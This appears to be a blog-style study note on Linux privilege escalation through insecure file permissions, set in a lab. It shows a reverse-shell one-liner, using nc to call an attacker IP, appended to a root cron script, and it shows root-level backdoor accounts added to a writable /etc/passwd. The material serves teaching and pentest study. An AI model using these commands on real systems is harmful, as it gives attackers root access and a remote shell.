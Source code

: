```yaml
---
description: >-
  Insecure File Permissions
title: Insecure File Permissions              # Add title here
date: 2022-11-09 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Linux - Insecure File Permissions]                     # Change Templates to Writeup
tags: [insecure file permissions, linux privesc]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Writable and executable file
In order to leverage insecure file permissions, we must locate an executable file that not only allows us write access but also runs at an elevated privilege level. Useful commands are:
```bash
find / -perm -0002 -type d 2>/dev/null
find / -perm -0020 -type d 2>/dev/null
```

On a Linux system, the cron time-based job scheduler is a prime target, as system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

For the purpose of this example, we will SSH to our dedicated Debian client. In a previous section, we showed where to look on the filesystem for installed cron jobs on a target system. We could also inspect the cron log file (/var/log/cron.log) for running cron jobs:

```bash
student@debian:~$ grep "CRON" /var/log/cron.log
Jan27 15:55:26 victim cron[719]: (CRON) INFO (pidfile fd = 3)
Jan27 15:55:26 victim cron[719]: (CRON) INFO (Running @reboot jobs)
...
Jan27 17:45:01 victim CRON[2615]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 17:50:01 victim CRON[2631]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 17:55:01 victim CRON[2656]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 18:00:01 victim CRON[2671]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
```

No that we know the location of the script, we can inspect its contents and permissions.
```bash
student@debian:~$ cat /var/scripts/user_backups.sh
#!/bin/bash

cp -rf /home/student/ /var/backups/student/

student@debian:~$ ls -lah /var/scripts/user_backups.sh 
-rwxrwxrw- 1 root root 52 ian 27 17:02 /var/scripts/user_backups.sh
```

Since an unprivileged user can modify the contents of the backup script, we can edit it and add a reverse shell one-line. If our plan works, we should receive a root-level reverse shell on our attacking machine after, at most, a five minute period.

```bash
student@debian:/var/scripts$ echo >> user_backups.sh 

student@debian:/var/scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh

student@debian:/var/scripts$ cat user_backups.sh
#!/bin/bash

cp -rf /home/student/ /var/backups/student/


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
```

### /etc/passwd

If the /etc/passwd file has writable permission we can add a line to /etc/passwd using the appropriate format:

```bash
student@debian:~$ openssl passwd evil
AK24fcSx2Il3I

student@debian:~$ echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd

student@debian:~$ su root2
Password: evil

root@debian:/home/student# id
uid=0(root) gid=0(root) groups=0(root)
```

Secondary Option:
```bash
openssl passwd -1 -salt doom doom
    
echo 'doom:$1$doom$m/meYVrO7ZsSmCo1/p4v..:0:0:Hacker:/root:/bin/bash' >> /etc/passwd
```
